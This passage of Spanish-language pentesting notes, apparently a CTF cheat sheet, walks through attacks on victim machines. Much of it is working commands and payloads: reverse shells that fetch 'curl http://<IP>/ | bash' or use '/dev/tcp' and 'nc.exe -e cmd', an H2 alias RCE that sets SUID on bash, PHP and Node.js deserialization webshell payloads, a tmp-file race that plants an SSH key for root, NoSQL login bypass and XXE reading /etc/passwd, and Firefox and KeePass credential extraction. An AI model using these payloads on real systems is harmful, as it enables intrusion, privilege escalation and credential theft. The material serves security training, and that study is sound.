Si esto nos lo clonamos en nuestro `Host` y lo explotamos desde nuestro `Host` lo estaremos haciendo como si fuera en la maquina victima y como lo esta ejecutando `root` podremos ser `root` ya que todo lo que toquemos en ese puerto transformado en un tunel se ejecutara en la maquina victima...

```shell
python3 exploit.py http://127.0.0.1:<TUNEL_PORT> Monolog/RCE1 <COMMAND>
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'ifconfig'
```

Con el `ifconfig` veremos la `IP` de la maquina victima con esto ya confirmamos que se esta ejecutando desde la maquina victima...

Y si todo funciona veremos que es `root` el que lo esta ejecutando, por lo que haremos una `Reverse Shell` con `curl`...

Crearemos el archivo `index.html`...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` con el exploit el cual nos deja ejecutar comandos...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma mediante el exploit...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell autenticada como `root` ya que lo esta ejecutando el usuario `root` todo esto y como si se estuviera ejecutando desde la maquina victima...

### Squid Proxy

Si alguna vez vemos un puerto...

```
<PORT>/tcp   open   http-proxy    Squid http proxy <VERSION>
```

Nos da una pista de que podremos conectarnos a ese proxy mediante `curl` enviando una peticion, pero tiene que ser de forma autenticada, por lo que tendremos que conseguir las credenciales...

Podemos probar a intentar conectarnos de la siguiente manera...

```shell
curl --proxy http://<IP>:<PORT> http://127.0.0.1
```

Con esto lo que estamos haciendo es intentar conectarnos a esa `IP` de la maquina victima con el puerto en el que esta el `Squid proxy` a nuestro puerto `80` por que si no le especificamos un puerto al `127.0.0.1` se redirige automaticamente al puerto `80`, pero sin credenciales pondra un `acceso denegado`...

Pero si queremos conectarnos teniendo una credenciales haremos lo siguiente...

```shell
curl --proxy 'http://<USER>:<PASSWORD>@<IP>:<PORT>' http://127.0.0.1
```

Y si las credenciales fueron las correctas, podremos ver un `Welcome`...

#### Gobuster con proxy

Por lo que ya podremos listar directorios de esa `URL` pasando por un `proxy` autenticado...

```shell
gobuster dir --proxy 'http://<USER>:<PASSWORD>@<IP>:<PORT>' -w <WORDLIST> --url http://127.0.0.1
```

Si por ejemplo diera erro el `proxy` habria que `URL Encodearlo` sobre todo los signos raros o signos sin mas, por ejemplo (`><^`) etc...

Esto lo podemos ver con el comando...

```shell
man ascii
```

Y llendote al simbolo que quieres cambiar y siempre en este caso fijandote en la columna de `hexadecimal` poniendo delante un `%`

Por ejemplo (`> = %3E`)

#### rpcbind

Pero si por ejemplo tenemos un puerto `24007` abierto o que se llame `rpcbind` lo mas seguro es que se pueda utilizar la herramienta `Gluster` para poder inspeccionar lo que hay en ese puerto o lo que contiene...

Por lo que nos lo instalaremos en nuestro equipo...

#### Gluster

```shell
apt install glusterfs-client glusterfs-server
```

Una vez instalado mirando la ayuda de la propia herramienta con...

```shell
man gluster
```

Podremos ver un parametro en concreto que sirve para listar los archivos de la `IP` y puerto que especifiquemos y que se pueda, en este caso como en este puerto se puede aprovecharemos eso...

```shell
gluster --remote-host=<IP> volume list
```

Con esto si funciona lo que hace es listarte los volumenes que hay en esa `IP`...

> EJEMPLO

Pongamos que hay 2 volumenes y que solo uno de ellos se puede montar en nuestro `host`, aprovecharemos el que se pueda montar para montarlo en nuestro `host`...

```shell
mount -t glusterfs <IP>:/<VOLUMN_NAME> /mnt/<DIRECTORY_NAME>
```

Con esto lo que estamos haciendo es montar el volumen que hemos encontrado a nuestra carpeta de `/mnt` dentro del directorio que queramos o que tengamos creado para ello, por ejemplo...

```shell
mount -t glusterfs <IP>:/vol2 /mnt/example
```

Una vez que tengamos montado todo ese volumen en nuestra carpeta elegida veremos que hay...

Imaginemos que hay una base de datos de `mysql` dentro de ese volumen montado, comprometiendo asi a cualquier usuario y contraseña...

Para poder ver esa base de datos que se encuentra en nuestra carpeta de montado, podremos crear un `docker` con la version que utilice ese `mysql`, para ello podremos ver la version en el siguiente archivo...

```shell
strings mysql_upgrade_info
```

U otro archivo interesante seria...

```shell
strings ibdata1
```

Crearemos una carpeta que es donde depositemos toda la carpeta de montado para trabajar mas facil...

```shell
mkdir /tmp/mysql
```

Ahora lo que vamos hacer es copiarnos todo el contenido de nuestra carpeta de montado con la base de datos de `mysql` a nuestra carpeta creada como `mysql/` en `/tmp`...

```shell
cp -R /mnt/example/* .
```

> (SUPONIENDO QUE `example` CONTIENE TODO EL MONTADO)

Una vez copiado todo a nuestra carpeta `mysql` en `tmp`, haremos lo siguiente...

Podremos crear un `docker` con la version de `mysql` que queremos montar y de la que se esta utilizando en la carpeta que copiamos para dentro del mismo poder abrir `mysql` y poder visualizar el contenido de ese `mysql`...

#### Docker para mysql

```shell
docker run --name <NAME_DOCKER> -v /tmp/mysql:/var/lib/mysql -d mariadb:<VERSION>
```

Lo que estamos haciendo aqui es montar todo lo que hay en la carpeta `/tmp/mysql` que contiene la copia de la montura de la base de datos de `mysql` a la tura donde se encuentra por defecto los archivos de `mysql` indicandole despues del `-d` el nombre de la base de datos que por defecto es `mariadb` y la version que quieres montar o que esta utilizando la base de datos que queremos visualizar...

> EJEMPLO

```shell
docker run --name mariadb -v /tmp/mysql:/var/lib/mysql -d mariadb:10.3.31
```

Pero el problema de esto es que cuando nos qureamos meter en la interfaz de `mysql` saltara un error tipico de este tipo de casos, esto se soluciona haciendo lo siguiente...

Dira algo como que falta un plugin, esto se arregla insertando ese plugin de forma manual antes de montar el `docker`, crearemos el siguiente archivo en `/tmp`...

```shell
nano <NAME>.cnf
```

Contenido:

```
[mariadb]
plugin-load-add = auth_socket.so
```

Una vez guardado crearemos el `docker` con ese plugin que creamos llevandolo a la ruta donde tiene que estar...

```shell
docker run --name <NAME_DOCKER> -v /tmp/mysql:/var/lib/mysql -v /tmp/<NAME>.cnf:/etc/mysql/mariadb.conf.d/<NAME>.cnf -d mariadb:<VERSION>
```

Una vez creado el `docker` con ese plugin ya no puede dar ningun problema, por lo que nos metemos dentro diretamente en la interfaz de `mysql`...

```shell
docker exec -it <DOCKER_NAME> mysql
```

Una vez hecho esto ya estariamos dentro de `mysql` dentro del `docker`...

### Openssl brute force

Si en algun momento encuentras un archivo con alguna extension rara por ejemplo `.enc` o `.decrypt` etc... Y sobre todo si hacemos lo siguiente...

```shell
file example.enc
```

Info:

```
example.enc: openssl enc'd data with salted password
```

Si vemos alguna vez ese tipo de mensaje quiere decir que el contenido del archivo esta cifrado con una contraseña que tienes que saber para que pueda ser legible...

```shell
openssl aes-256-cbc -d -in example.enc
```

Te pedira la contraseña para desencriptarla y eso suponiendo que la codificacion es en `SHA-256`, pero para ello hay herramientas que te automatizan todo esto...

URL = https://github.com/HrushikeshK/openssl-bruteforce/tree/master

URL = https://github.com/glv2/bruteforce-salted-openssl (En vez de descargartelo desde el repositorio recomiendo instalartelo como herramienta...)

```shell
apt install bruteforce-salted-openssl
```

Una de las 2 sirve...

Sin embargo para encriptar algun archivo que contenga algo, se podra hacer de la siguiente forma...

```shell
openssl aes-256-cbc -in example.txt -out example.cypted
```

Y te pedira una contraseña que sera con la que podras desencriptarlo...

#### Uso de la herramienta openssl-bruteforce de la primera URL

```shell
python brute.py <WORDLIST> ciphers.txt <FILE_OPENSSL>
```

### Comandos S.O. Linux

Para borrar los saltos de lineas de algun archivo se podra hacer de la siguiente manera...

```shell
cat example.txt | tr -d '\n'
```

Y con eso lo que hacemos es borrar todos los saltos de lienas de cualquier archivo que queramos y especifiquemos...

Si quieres copiarte algun texto desde terminal sin necesidad del raton en la `clipboard` se hara de la siguiente forma...

```shell
cat example.txt | xclip -sel clip
```

Y cuando se haga `Ctrl+V` se pegara ese texto...

Y para dejarlo todo en una misma linea se podra hacer de la siguiente manera...

```shell
cat example.txt | xargs
```

Para poder ver el codigo de estado de un archivo anterior representandolo como `1` y como `0`, siendo el `1` (ERROR) y el `0` (EXITOSO)...

```shell
echo $?
```

En un archivo `/etc/passwd` para de un comando limpiar lo de despues de los `:` y que te muestre solo los usuarios, seria de la siguiente forma...

```shell
cat passwd | awk '{print $1}' FS=":"
```

### H2 Console (Database)

Para explotar algun puerto con ese CMS corriendo en el, seguir el siguiente video...

URL = https://www.youtube.com/watch?v=qiCozh2m0yE\&ab\_channel=S4viOnLive%28BackupDirectosdeTwitch%29

Minuto (1:35:00) `Mas o menos`

Basicamente si te pide insertar un comando para ejecutarlo y el propietario del que lo esta ejecutando ese CMS sea `root` se podra hacer lo siguiente...

Buscar por `Google` 'Abuse H2 Database' y en la siguiente `URL`...

URL = https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

Por lo que si haces lo siguiente en el recuadro de ejecutar comandos...

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

Con eso se podra ver el `id` del usuario que lo esta ejecutando y para poder escalar privilegios si lo esta ejecutando `root` y con otro usuario estas dentro de la maquina, se podra hacer lo siguiente...

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('chmod u+s /bin/bash')
```

Y con el otro usuario hacer...

```shell
bash -p
```

Y ya serias `root`...

### Exportar puerto con ssh a tu host

Si en la maquina victima hay un puerto web que quieres visualizar en un navegador y tienes las credenciales para conectarte por `ssh`, podremos pasar ese puerto de la maquina victima a un puerto nuestro del `host` para poderlo visualizar en nuestro `host` con el contenido de la maquina victima...

```shell
ssh <USER>@<IP> -L <PORT_VICTIM>:127.0.0.1:<PORT_HOST>
```

> EJEMPLO

```shell
ssh user@<IP> -L 8082:127.0.0.1:8082
```

Se ingresaria la contraseña del usuario y te meteria dentro del `ssh`, pero si ahora nos vamos a visualizar desde el `host` ese puerto con la siguiente `URL`...

```
URL = http://127.0.0.1:<PORT>/
```

```
URL = http://127.0.0.1:8082/
```

Te visualizara la pagina que se este corriendo en ese puerto de la maquina victima...

### Archivo XML para verlo en puerto 80 localhost

Si en un escaneo de puertos te exportas tu archivo `XML` a un fichero con los puertos y todo eso, lo puedo exportar a un archivo `index.html` para verlo de mejor manera todo ello, y se haria con las siguiente herramientas...

```shell
apt install xsltproc
```

Para exportar un archivo de un escaneo de puerto a un archivo `XML` haremos lo siguiente...

```shell
nmap -sCV -p<PORTS> -oN <FILE_NAME> -oX <FILE_NAME_XML>
```

Utilidad...

```shell
xsltproc <FILE_NAME_XML> > /var/www/html/index.html
```

Habilitamos nuestro servicio apache para verlo en la siguiente `URL`...

```shell
service apache2 start
```

```
URL = http://127.0.0.1/
```

Y ya lo podriamos visualizar...

Y para parar el servicio...

```shell
service apache2 stop
```

### smb Windows

Para poder chequear un `smb` o sacarle algo de informacion podemos utilizar una herramienta...

```shell
crackmapexec smb <IP>
```

Con esta otra herramienta tambien puede escanear un `smb`...

```shell
smbmap -H <IP>
```

### Escucha conseguir credenciales Gestor de contenido

Hay algunas paginas tipicas en las que se pueden conseguir o autenticar algunas credenciales cambiando algunos parametros estando a la escucha...

Si por ejemplo tenemos una web en la que podemos tocar el dominio al que se conecta poniendo nosotros nuestra `IP` y con las credenciales ya puestas a parte de mostrando el puerto a que se esta conectando en vez de llegarle la peticion al servidor llegaria a la `IP` que nosotros pusimos estando a la escucha, por lo que la contraseña seria visual para nosotros ya que estaria intentando hacer una comparacion mostrando la contraseña para validarla...

> EJEMPLO

<figure><figcaption></figcaption></figure>

Pongamos que tenemos ese panel con las credenciales y donde pone `Server Address` lo cambiamos por nuestra `IP` y estando a la escucha...

```shell
nc -lvnp <PORT>
```

En este caso seria por el puerto `389`...

```shell
nc -lvnp 389
```

Y enviamos la solicitud en este caso dandole a `Update` nos llegara esa peticion y podremos ver las credenciales...

<figure><figcaption></figcaption></figure>

### crackmapexec \[Authenticated]

Si tenemos unas credenciales que pueden ser validas las probamos con la siguiente herramienta al puerto de `smb`...

```shell
crackmapexec smb <IP> -u '<USER>' -p '<PASSWORD>'
```

Si nos salta con un resultado `[+]` y despues las credenciales separadas por `:` es que las credenciales son correctas, si no, serian incorrectas...

Para comprobar si definitivamente nos podemos conectar a la maquina con esas credenciales, probaremos el siguiente comando, que es solamente sustituyendo el parametro `smb` por el de `winrm`...

```shell
crackmapexec winrm <IP> -u '<USER>' -p '<PASSWORD>'
```

Si el resultado a parte de lo anteriormente dicho sale a la derecha de las credenciales el siguiente nombre de esta manera...

```
(Pwn3d!)
```

Significa que ya nos podremos conectar por `evil-winrm`...

Ya que despues para autenticarnos utilizariamos la herramienta `evil-winrm` que actua como un `ssh` en linux...

### evil-winrm

Si la herramienta no esta instalada...

```shell
gem install evil-winrm
```

Teniendo unas credenciales para conectarnos mediante esta herramienta, haremos lo siguiente...

```shell
evil-winrm -i <IP> -u '<USER>' -p '<PASSWORD>'
```

Si todo esto ha funcionado, tendriamos una shell interactiva dentro del servidor y se habria vulnerado (Ya digo es como un `ssh` de linux, pero en `Windows`)

### Comandos basicos en S.O. Windows

Para poder visualizar los archivos y listarlos utilizaremos...

```shell
dir
```

Actua como un `ls` en Linux...

Para poder leer archivos de texto en `Windows` utilizaremos...

```shell
type <FILE>.txt
```

Como si fuera un `cat` en Linux...

Para poder ver nuestros privilegios dentro de la maquina, seria de la siguiente manera...

```shell
whoami /priv
```

Y el objetivo es ser `Administradores` que es como ser `root` en Linux...

Para ver la informacion del usuario que tenemos de manera actual, en que grupos y cosas asi esta metido seria de la siguiente manera...

```shell
net user <USUARIO>
```

Para descargarte un archivo a tu `host` se podria hacer de la siguiente manera...

```shell
download C:\<PATH>
```

Las rutas tienen que ser de esa manera inidicando el disco y con las barras inversas...

Para ver los servicios que hay activos, se mira de la siguiente manera...

```shell
services
```

### Active Directory Group `Server Operators`

Estando dentro de este grupo y pudiendo para y correr servicios del sistema se puede escalar privilegios de la siguiente manera...

Primero veremos en nuestro `host` donde esta el `nc.exe` para que sirva en `Windows`....

```shell
locate nc.exe
```

Info:

```
/usr/share/windows-resources/binaries/nc.exe
```

Nos copiamos ese `.exe` a nuestro directorio actual para pasarlo a la maquina `Windows`...

```shell
cp /usr/share/windows-resources/binaries/nc.exe .
```

Hacemos un `pwd` para ver en la ruta actual en la que estamos y en la que hemos llevado el archivo, en mi caso...

```
/home/kali/Desktop
```

Por lo que en la maquina `Windows` haremos lo siguiente para pasarnoslo...

```shell
upload /home/kali/Desktop/nc.exe
```

Una vez hecho esto ya estaria el `nc.exe` ya estaria en la maquina `Windows`...

Ahora lo que haremos sera arrancar un servicio ya que estamos en el grupo para poder hacerlo, de la siguiente manera haciendo una reverse shell y como lo esta ejecutando por asi decirlo el `administrador` conseguiriamos una shell como el mismo...

```shell
sc.exe create reverse binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

Con esto lo que estamos haciendo es crear un servicio de que cuando se inicie cierto servicio arranque el `nc.exe` que se encuentra en ese `PATH` ejecutando el mismo una `Reverse Shell` con los siguientes paraemtros...

Ahora nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Pero si al crear eso nos pone `Access Denied` manipularemos un servicio que ya este creado de la siguiente manera...

Lo miraremos con `services` los servicios que estan abiertos y eligiendo uno de ellos le cambiaremos la configuracion de la siguiente manera...

```shell
sc.exe config <SERVICE_NAME> binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

> EJEMPLO

```shell
sc.exe config VMTools binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

A lo mejor no te deja con todos los servicios pero es ir probando hasta que te deje cambiarle la configuracion alguno de ellos...

Si encontramos uno que te deje cambiar la configuracion, haremos lo siguiente...

```shell
sc.exe stop <SERVICE_NAME>
```

```shell
sc.exe stop VMTools
```

Y ahora estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Ahora en la maquina `Windows` iniciamos el servicio para que se inicie la `Reverse Shell`...

```shell
sc.exe start <SERVICE_NAME>
```

```shell
sc.exe start VMTools
```

Y con esto ya habriamos conseguido una `Reverse Shell` como `Administrador` en la maquina `Windows`...

### Decrypt Firefox

Si en alguna vez se encuentra una carpeta en una maquina llamado algo como `.mozilla/firefox` y dentro de esas ruta puede haber una via potencial para desencriptar `coockies` de inicios de sesion...

URL = https://github.com/unode/firefox\_decrypt

Si nos encontramos una carpeta que contiene cosas de `firefox` nos las podemos pasar a neustro `host` utilizando el siguiente comando...

```shell
wget -r <IP>:<PORT>
```

Para descargarte todo el contenido de esa `IP` y de ese puerto...

Y para utilizar la herramienta anterior una vez que tengamos nuestra carpeta entera de `.mozilla/firefox/` haremos lo siguiente con la herramienta...

```shell
python3 firefox_decrypt.py ../firefox/
```

Esto te pedira una contraseña si estuviera protegida la informacion, pero si no te daria las credenciales directamente encontradas...

### Serializar en `URL` con `PHP` sabiendo el codigo \[Ataque de Serealizacion y Deserealizacion]

Si por ejemplo estamos en una maquina y nos muestran el codigo de algun `backup` de algun `.php` de alguna pagina, podremos ver el codigo de `php` por dentro por lo que estudiaremos como funciona y de ahi crearemos nosotros un `.php` para poder crear cosas dentro de la `URL` con los parametros que veamos o poder aprovechar la informacion para inyectar cosas...

Pero en este caso imaginamos que obtuvimos de una pagina un `.php` con su codigo y sabemos como funciona, vemos que se esta tramitando una peticion por parametro llamado `example=` en el archivo `test.php` y a lo ultimo se esta `serializando` la informacion en la `URL`, por lo que tendremos que crear un `.php` que nos genere el contenido de un parametro `cmd=`, craendo una archivo `.php` en el que podamos ejecutar cualquier comando de forma que nos lo serialice para que se lo trague la `URL` en este caso...

```php
<?php
class DatabaseExample
{
	public $user_file = 'payload.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>'
}

$exploit = new DatabaseExample;

echo serialize($exploit);

?>
```

Con este `.php` cuando lo ejecutemos...

```shell
php data.php; echo
```

Nos mostrara lo que tendremos que meter de forma serializada en el parametro que sabemos que esta creado llamado `example=` para crear un archivo llamado `payload.php` en la base de datos que sabemos que existe por el `backup` creando en ese archivo el parametro `cmd=` pudiendo ejecutar cualquier comando del sistema y por ultimo nos lo serializa para que funcione todo esto, aprovechando las variables publicas que ya estan creadas...

```shell
curl -s -X GET -G "http://<IP>/test.php" --data-urlencode 'example=<TEXT_SERIALIZE>'; echo
```

Esto lo que hara sera ejecutar lo que ya dije anteriormente desde la herramienta `curl`...

Ahora si nos vamos a la misma `URL` pero en vez de pone `test.php` ponemos nuestro archivo creado llamado `payload.php` y poniendo el parametro creado por ese archivo `cmd=` y un comando deberia de funcionar...

```
URL = http://<IP>/payload.php?cmd=whoami
```

URL = https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Esto se puede aprovechar mirando el archivo `server.js` si estuviera disponible, una vez sabiendo esas informacion se puede aprovechar un `bug` con la `URL` anterior en la `Cookie de sesion` para ejecutar comandos de forma libre, ya que si se deserializa, se puede hacer lo siguiente...

```json
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Ajustandolo a tus necesidades, eso se podria `URL Encodear` y ponerlo en la `Cookie` para que cuando recargues la pagina se ejecute un comando en el espacio de `ls /`...

### sshpass

Si queremos conectarnos por `ssh` directamente proporcionando la contraseña automaticamente, seria de la siguiente forma...

```shell
sshpass -p '<PASSWORD>' ssh <USERNAME>@<IP>
```

### Capturar peticion de un `.sh` para inyectar codigo nuestro \[Reconditioning the Abuser]

Si por ejemplo tenemos un `.sh` que podemos ejecutar con privilegios de super usuario o no, da igual, pero si tenemos un ejecutable que genera de forma temporal un archivo con nombres temporales aleatorios, cunado lo ejecutemos podemos por otro lado estar de forma bruta generando muchos archivos temporales con nombres aleatorios y cuando coincidan de cuando yo lo ejecute que se escriba lo que yo quiero en vez de de lo que esta programado el programa, haciendo asi una captura de la peticion de ese ejecutable y escribiendo lo que yo quiera...

> EJEMPLO

Imaginemos que se esta escribiendo una `id_rsa.pub` de `root` al archivo `authorized_keys` por lo que si capturamos la peticion cuando yo ejecute ese `.sh` y escribimos nuestra `id_rsa.pub` de nuestro `host` en ese archivo de `root` podremos conectarnos por `ssh` como `root` con nuestra `id_rsa` privada...

```shell
while true; do for filename in /tmp/ssh-*; do echo '<CONTENT_YOUR_ID_RSA.PUB>' > $filename; done; done
```

La parte de `/tmp/ssh-*` se hace por que en el archivo se supone que genera en `/tmp` el archivo llamado `ssh-XXXXX` y las `X` significan que se sustituyen por palabras aleatorias, por lo que cuando hacemos `/tmp/ssh-*` estamos haciendo que pruebe todas las combinaciones posibles de esas `X` que se estan sustituyendo cuando ejecuto el `.sh`...

Si ejecutamos esto estara como a la escucha probando muchisimos nombres temporales hasta que coincida uno cuando yo ejecute el archivo `.sh`, por lo que una vez que este esto probando las combinaciones, haremos lo siguiente...

```shell
sudo /<PATH>/example.sh
```

Y si todo salio bien y capturo a tiempo el nombre del ejecutable habria inyectado nuestra `id_rsa.pub` por lo que probaremos a conectarnos como `root`...

```shell
ssh root@<IP>
```

Y sin proporcionar contraseña ya seriamos `root` si todo funciono...

### FTP

Dentro de `ftp` se puede desactivar un modo para que no te este preguntando por cada archivo que te descargues y a la vez otro comando para descargarte todo a la vez...

```shell
prompt off
```

```shell
mget *
```

Y con eso desactivar las preguntas y despues te descargas todo...

### Poetry

Es similar a `hydra` o `medussa`, esta herramienta lo que hace es verificar los usuarios y contraseñas que le pases mediante el puerto del `ssh` por ejemplo, `smb`, `ftp`, etc... Se haria de la siguiente manera...

En tal caso de que se quisiera probar una contraseña con diversos usuarios, seria...

```shell
poetry run cme ssh <IP> -u <WORDLIST> -p '<PASSWORD>'
```

Si quieres que continue para que siga probando aunque de un `Success`...

```shell
poetry run cme ssh <IP> -u <WORDLIST> -p '<PASSWORD>' --continue-on-success
```

Si quieres probar contraseñas frente a un usuario...

```shell
poetry run cme ssh <IP> -u '<USER>' -p <WORDLIST>
```

### Hacking Wifi \[Herramienta]

Para el hacking wifi hay una herramienta muy utilizada llamada `Reaver` o tambien `wpspingenerator` de `wifislax`...

Para hacer auditorias wifi se utilizaria la herramienta `wifimosys`...

Por lo que `Reaver` se utilizaria de la siguiente manera...

> EJEMPLO

Supongamos que estamos en una maquina que al hacer `ifconfig` vemos que hay una red en modo monitor, que se suele asignar el nombre tipico de `mon0` dependiendo de cuantas redes haya...

Como esta herramienta solo se puede ejecutar con privilegios de `root` como usuario normal no se podria tocar, pero si hacemos...

```shell
getcap -r / 2>/dev/null
```

Para ver las `capabilitys` que tiene dicho usuario y vemos que entre ellas esta la siguiente...

```
/usr/bin/reaver = cap_net_raw+ep
```

Veremos que podremos ejecutar ese binario como si lo estuviera ejecutando `root` por decirlo de alguna manera, por lo que lo podremos utilizar para la red que esta en modo monitor u otras posibles redes wifi que empiezan con el termino `wlan`...

```shell
iw dev
```

Con esto podremos ver de forma mas detallada la estructura de redes como esta compuesta e identificar el `Punto de Acceso` a la red representado como `AP`...

```
Type AP
```

Se veria algo como lo de arriba...

Tambien viendo que el `ssid` es `OpenWrt` por lo que supongamos que esa red que simula tener un punto de acceso se llama `wlan0`...

Identificando de esa red la `pssid` que se representa como la `MAC` llamada `addr` y la red en modo monitor llamada `mon0` podremos explotar esto...

Ya que necesitamos la `addr` de un tipo que sea `AP` (Punto de Acceso) para acceder y despues poniendo la red que esta en modo monitor para capturarlo por asi decirlo con la herramienta dicha anteriormente...

```shell
reaver -i mon0 -b <ADDR_WLAN0> -vv
```

Una vez hecho esto te mostrara el parametro `WPS PIN` con el `PIN` de la misma red y el parametro `WPA PSK` con la contraseña en texto plano...

Por lo que habria funcionado y tendramos la contraseña de algun posible usuario o de alguna posible red wifi...

### NoSQL Injection

Esta tecnica es similar a `SQL Injection` pero con la diferencia de que haces peticiones que no tienen que coincidir entre si...

Si por ejemplo en `SQL Injection` se hacia la comparacion logica para que siempre sea cierto `' OR 1=1-- -` de esa manera, en esta tendra que ser al contrario pero en formato `JSON` de la siguiente manera...

Si tenemos un panel de login y por lo que sea descubrimos el usuario, pero nos falta la contraseña, podremos hacerlo de la siguiente forma...

Mediante el `BurpSuit` capturamos la peticion del login, seguidamente donde pone `Username` y `Password` los cambiamos de la siguiente manera...

```
Username=admin&Password=admin
```

Quedaria de la siguiente manera en `BurpSuit`...

```
{"Username": "admin", "Password":{"$ne": "example"}}
```

Y con esto si funciona estaria `Bypasseado` el login haciendo una comparacion logica negativa, ya que estamos diciendo que `admin` no es igual a `example` por lo que te logea...

Todo esto esta reflejado en la siguiente pagina...

URL = https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

Cuando hay un `NoSQL Injection` en alguna web o algo parecido por detras siempre suele haber un `mongoDB` por lo que si podemos entrar en la maquina y buscar por `mongo` si esta activa la base de datos podemos entrar en `mongo` poniendo lo siguiente...

```shell
mongo
```

O irnos a `/tmp` y hacer un volcado de las bases de datos de `mongo` haciendo lo siguiente...

```shell
mongodump
```

Y esto lo que hara sera crear una carpeta llamada `dump` con todas las bases de datos que esten dentro de `mongo` con su respectiva informacion, para poder ver posibles contraseñas...

Si encontramos un archivo dentro de la carpeta `dump` bastante interesante sobre un usuario y una contraseña pero se ve muy mal por que esta en formato `.bson` podremos hacer lo siguiente...

Imaginemos que el archivo se llama `user.bson`...

```shell
bsondump user.bson
```

Y esto te lo mostrara de manera mas clara toda la informacion...

### XXE Injection

URL = https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

Supongamos que tenemos una web en la que podemos subir cosas en formato `xml` y que la estructura la procesa bien mostrandonos asi el input que nosotros hemos metido, si se fia de cualquier input que le podamos meter, podremos hacer la inyeccion `XXE`...

Supongamos que la estructura del `xml` es la siguiente...

```xml
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>test test test</markdown>
</post>
```

Y ese input se refleja en la pagina cuando lo vamos a subir, por lo que podremos hacer lo siguiente...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&xxe;</markdown>
</post>
```

Si es vulnerable a este tipo de inyeccion deberiamos de poder ver el archivo `passwd` en el espacio donde estamos poniendo `&xxe;` y este nombre puede ser cualquiera que le queramos asignar en la parte de arriba en la zona `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` donde pone `xxe` podemos nombrarlo como queramos por ejemplo...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY example SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&example;</markdown>
</post>
```

Si le cambiamos el nombre quedaria de esta manera...

### Sacar password de un KeePassXC

Si por ejemplo tenemos un archivo con un `.dmp` del volcado de memoria del `Keepass` el cual se puede utilizar para abrir `Keepass` y con la clave maestra decodificarlo para ver su contenido, pero antes se necesitara esa clave maestra, dependiendo de la version hay una vulnerabilidad en el mismo que permite dumpear la `password` desde la memoria del propio archivo del programa teniendo asi un fallo de seguridad...

Los primeros pasaos para dumpear dicha contraseña seria la siguiente...

URL = https://github.com/matro7sh/keepass-dump-masterkey

Con esa herramienta le pasamos el archivo `.dmp` para sacar la contraseña...

```shell
python3 poc.py <FILE>.dmp
```

Esto te mostrara una serie de contraseñas, una vez dentro metiendo la clave maestra proporcionada, supongamos que te encuentras una clave privada pero no de `ssh` si no en formato `Putty`...

#### Pasar de formato Putty (PPK) a formato SSH (id\_rsa \[PEM])

URL = https://tecadmin.net/convert-ppk-to-pem-using-command/

Hay nos explica como convertir una clave privada `Putty` a una clave privada `id_rsa`...

```shell
sudo apt install putty-tools
```

```shell
puttygen <FILE_KEY_PUTTY> -O private-openssh -o <FILE_ID_RSA>
```

Y con esto la comversion se habria hecho perfectamente...
